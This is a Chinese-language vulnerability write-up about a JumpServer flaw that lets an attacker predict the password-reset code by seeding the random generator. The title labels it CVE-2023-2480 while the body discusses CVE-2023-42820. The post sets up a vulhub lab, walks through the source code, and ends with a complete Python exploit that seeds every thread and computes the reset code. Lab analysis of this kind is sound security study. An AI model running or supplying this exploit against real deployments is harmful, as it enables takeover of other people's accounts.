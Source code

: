 +++
title = 'CVE 2023 2480'
date = 2024-05-21T14:41:04+08:00
draft = false
+++

## 介绍

JumpServer是使用 Python / Django 进行开发，遵循 Web 2.0 规范的全球首款完全开源的堡垒机软件。因其开源，无插件，Web界面美观，操作方便，分布式，符合4A规范等特点，被很多企业广泛用于内部资产（物理机，云主机等）的管理。
CVE-2023-42820通过可控的伪随机数播种，构造随机数调用过程，计算出重置密码后的验证码，从而实现任意账号密码重置。

## 环境搭建

下载https://github.com/vulhub/vulhub/blob/master/jumpserver/CVE-2023-42820/，修改config.env的DOMAINS=[你的ip:端口]

![1716274683038](index/1716274683038.png)

然后直接docker compose，注意这里要启动docker服务、要安装了docker-compose

```
docker compose up -d
```

这里我虽然写了8888还是在8080，感觉并不用写端口，因为我看docker也没做映射

![1716275391597](index/1716275391597.png)

好的，做了实验还是得填8080，大概是后端的端口，想改可能还要同时改env里的 `CORE_HOST=http://127.0.0.1:8080`

用admin：admin直接登陆http://your-ip:8080即可

## 漏洞利用

可以看到

Patched versions>= v2.28.19, >= v3.6.5

在3.6.5和2.28.19都有一个叫做fix: 修复 random error的commit

![1716277497141](index/1716277497141.png)

在jumpserver中，按照下图逻辑进行验证

![1716278166625](index/1716278166625.png)

这里使用了django-simple-captcha实现验证码部分，

可以看到用了一个key，而且还提示了其他用这个部分的同学不要用同一个key来生成图片。
![1716279091529](index/1716279091529.png)
在url.py里可以看到这个key就是跟在后面的字符串
![1716279175872](index/1716279175872.png)这个key在url里，是可控的，类似这样。

`http://10.207.139.20:8080/core/auth/captcha/image/4cbbebb2305a4ef0d0e1242c352e288073537a7d/`

在网络服务中，接收用户交互的线程并不唯一，而random.seed()的作用只在当前线程，因此需要将我们控制的key作用在所有线程，所以exp的第一步为重放爆破，将我们控制的key大量发送get请求，使得所有服务器接收的线程均设置random.seed()。然后通过api调用，定位到忘记密码流程。
![1716279507847](index/1716279507847.png)

使用form_invalid方法对用户名是否存在进行验证，并通过random_string方法生成一个长度为36的token，带着token跳转到forgot-password页面。

再通过api定位发送验证码的调用函数

![1716279819826](index/1716279819826.png)

使用该类下create函数，通过random_string方法生成一个长度为6的验证码并进行发送

看下来这个random.seed()是作用于全流程的，所以我们需要考虑的是

![1716279923737](index/1716279923737.png)

返回一开始分析的captcha_image函数，该函数控制图片验证码生成，渲染，在每次的忘记密码找回时，均先调用该函数生成图片验证码，用户输入正确的用户名和验证码，才能跳转下一步，我们需要明确在该函数部分调用了几次random类的函数。

从头梳理，在django-simple-captcha里直接搜索random,可以找到

![1716280301856](index/1716280301856.png)

是旋转字符的，因为生成的captcha都是4个字符（8、*、3、=）

![1716280428846](index/1716280428846.png)

所以调用4次random.randrange(),在settings.py里也可以找到对应的定义，range是（-35，35）

![1716280712311](index/1716280712311.png)

还有noisy_function中
![1716280971009](index/1716280971009.png)
![1716280949744](index/1716280949744.png)
![1716281019286](index/1716281019286.png)
noizy_dot也用到了random，用了 `range(int(size[0]*size[1]*0.1))`次，
![1716281197925](index/1716281197925.png)
在jumpserver中可以看到capcha的大小是180*38，采用noise_dot的噪声算法

![1716359299723](index/1716359299723.png)

所以大概用了这些random

```python
for i in range(4):
    random.randrange(-35,35)

for j in range(int(180*38*0.1)):
    random.randint(0, 180)
    random.randint(0, 38)
```


于是得到exp

```python
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin

logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'


def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])

    while True:
        password = list(random.choice(chars) for i in range(length))
        for k, v in kwargs.items():
            if v and not (set(password) & set(args_string_map[k])):
                # 没有包含指定的字符, retry
                break
        else:
            if not can_startswith_special_char and password[0] in args_string_map['special_char']:
                # 首位不能为特殊字符, retry
                continue
            else:
                # 满足要求终止 while 循环
                break

    password = ''.join(password)
    return password


def nop_random(seed: str):
    random.seed(seed)
    for i in range(4):
        random.randrange(-35, 35)

    for p in range(int(180 * 38 * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)


def fix_seed(target: str, seed: str):
    def _request(i: int, u: str):
        logging.info('send %d request to %s', i, u)
        response = requests.get(u, timeout=5)
        assert response.status_code == 200
        assert response.headers['Content-Type'] == 'image/png'

    url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
    for idx in range(30):
        _request(idx, url)


def send_code(target: str, email: str, reset_token: str):
    url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
    response = requests.post(url, json={
        'email': email,
        'sms': '',
        'form_type': 'email',
    }, allow_redirects=False)
    assert response.status_code == 200
    logging.info("send code headers: %r response: %r", response.headers, response.text)


def main(target: str, email: str, seed: str, token: str):
    fix_seed(target, seed)
    nop_random(seed)
    send_code(target, email, token)
    code = random_string(6, lower=False, upper=False)
    logging.info("your code is %s", code)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('-t', '--target', type=str, required=True, help='target url')
    parser.add_argument('--email', type=str, required=True, help='account email')
    parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
    parser.add_argument('--token', type=str, required=True, help='account reset token')

    args = parser.parse_args()
    main(args.target, args.email, args.seed, args.token)

```

具体来说，就是通过发送30个都发送带有对应seed的验证码生成请求来使每个线程的seed都为我们所设定的seed,此时服务端每个线程的random函数都是经过了一轮之前分析过得random操作后的状态，通过调用nop_random，我们本地的random状态和服务端的random状态是一致的，send_code方法和jumpserver的UserResetPasswordSendCodeApi中的code一致，由于我们本地和服务端状态一致，所以我们本地与运行send_code和服务端运行send_code也是一样的，生成的code也就是一样的了。

![1716361614012](index/1716361614012.png)

![1716361642462](index/1716361642462.png)


### 参考

https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
